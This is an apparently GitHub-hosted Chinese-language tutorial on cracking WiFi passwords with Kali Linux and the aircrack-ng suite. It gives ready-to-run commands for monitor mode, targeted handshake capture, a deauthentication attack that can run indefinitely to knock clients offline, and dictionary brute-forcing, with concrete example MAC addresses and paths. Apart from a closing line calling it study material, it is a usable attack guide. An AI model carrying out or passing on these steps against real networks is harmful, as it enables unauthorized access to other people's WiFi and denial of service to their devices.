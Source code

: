 # Kali使用抓包网卡破解wifi密码

- 查看当前的网卡信息
```
ifconfig
```
- 查看支持监听的网卡
```
airmon-ng
```
- 在启动网卡的监听模式之前一定要杀死进程，否则将会监听不到附近的WiFi，执行下面命令杀死进程
```
airmon-ng check kill
```
![09c87be609c764eb129e22dad68f66ff](https://github.com/user-attachments/assets/966e3eb0-d0d1-4628-83da-47876de9158d)  

- 激活无线网卡的监听模式
```
airmon-ng start wlan0
```
![b69c30b8f5a543c7e180178bfb936677](https://github.com/user-attachments/assets/6b701055-4251-4d4c-8fdb-b9e219e6cc67)  

- 扫描当前周边环境的WiFi信号
网卡型号和驱动不同命令也不同  
```
airodump-ng wlan0
```
或者
```
airodump-ng wlan0mon
```
开启网卡的监听模式之后，执行命令监听附近WIFI信息，监听到需要的信息之后ctrl+c停止  
![303c6e53dcc482d4a03f5c9b969e3e1c](https://github.com/user-attachments/assets/6ca731fa-15d1-4815-b45a-ba05eeef3497)  

- 根据自己的情况进行替换
  - 先启用抓包命令
  ```
  airodump-ng -c <ID> –bssid <目标路由器Mac地址> -w <保存的路径/文件名> wlan0
  ```
  示例：
  ```
  airodump-ng -c 11 –bssid 60:32:B1:56:3F:B2 -w /home/lingdu/桌面/handshake wlan0
  ```
  对上述参数的解释  
  <pre>
    1.-c:接的是上图中的CH，代表信道。
    2.--bssid:路由器的MAC地址。
    3.PWR:信号强度，数值越大代表信号越强。
    4.ENC：使用的加密方式。
    5.AUTH：代表认证方式。
    6.ESSID：代表WIFI名字。
    7.-w ~/wlan0mon:将抓取的流量包保存到根目录下并命名为wlan0mon。
  </pre>
  - ACK 死亡攻击：
  ```
  aireplay-ng -0 <攻击次数> -a <目标路由器Mac地址> -c <要攻击的目标Mac地址> wlan0
  ```
  示例
  ```
  aireplay-ng -0 10 -a 60:32:B1:56:3F:B2 -c F0:72:EA:E8:72:21 wlan0
  ```
  <pre>
    -0 表示发起默认的攻击，之后接的数字代表攻击次数，上图是攻击10次，如果想进行断网攻击就只用填写0，默认一直攻击。
    -a 指定的无线路由器的BSSID
    -c 指定断开连接的用户的MAC地址（上图中为STATION）
  </pre>

暴力破解命令：  
```
aircrack-ng -w <密码本文件路径/passwd.txt> -b <目标路由器Mac地址> <抓包文件路径/handshake-0*.cap>
```
示例：  
```
aircrack-ng -w /home/lingdu/桌面/password.txt -b 60:32:B1:56:3F:B2 /home/lingdu/桌面/handshake-0*.cap
```
善用技术，遵纪守法，此文仅供学习参考!!!
